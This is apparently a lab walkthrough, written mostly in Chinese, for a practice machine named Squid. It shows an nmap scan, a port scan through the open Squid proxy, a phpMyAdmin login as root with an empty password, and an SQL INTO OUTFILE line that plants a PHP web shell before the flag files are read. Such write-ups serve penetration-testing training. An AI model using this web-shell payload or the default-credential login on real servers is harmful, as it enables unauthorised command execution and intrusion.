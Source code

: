 # Squid

### Nmap Scanning 

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A 192.168.115.189 -p-

[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-06 15:18 CST
Nmap scan report for 192.168.115.189
Host is up (0.074s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-06T07:22:18
|_  start_date: N/A
|_clock-skew: 1m12s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   74.56 ms 192.168.45.1
2   74.48 ms 192.168.45.254
3   74.93 ms 192.168.251.1
4   75.11 ms 192.168.115.189

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 220.22 seconds
```

特別的就是 port 3128 [Squid](https://www.squid-cache.org/) 服務了，上網查是一種 proxy 服務。 連上去只有錯誤畫面但是找到版號 4.14，但是透過 Searchsploit 沒看到什麼符合的 exploit。

![](img/Squid/1.png)

使用 Spose 掛上 Squid proxy 再掃描一次

```
┌──(kali㉿kali)-[~/Desktop/tmp_pen200/spose]
└─$ python spose.py --proxy http://192.168.115.189:3128 --target 192.

168.115.189            
Scanning default common ports
Using proxy address http://192.168.115.189:3128
192.168.115.189:3306 seems OPEN
192.168.115.189:8080 seems OPEN
```

確定有 port 之後，接上 proxy 重新連結。成功連上port 8080，是 Wampserver 的預設頁面
![](img/Squid/2.png)

### Login phpmyadmin using default credential

用 root/(empty) 登入資料庫（http://target_ip/phpmyadmin），再用以下 SQL 指令將 command shell 寫入至網站中
```
select '<?php system($_GET["cmd"]); ?>;' into outfile 'C:/wamp/www/shell.php' 
```

在連線至 http://target_ip/shell.php?cmd=whoami 確認 command 上傳成功

![](img/Squid/3.png)

### Use the command to find the `local.txt` and `proof.txt`

接著透過搜尋指令尋找 C 槽底下所有的記事本，找出儲存 flag 的 `local.txt` 和 `proof.txt`

![](img/Squid/4.png)

分別在：
- `C:\local.txt`
- `C:\Users\Administrator\Desktop\proof.txt`

再透過 type 指令將它印出，成功取得兩個 flag

![](img/Squid/5.png)
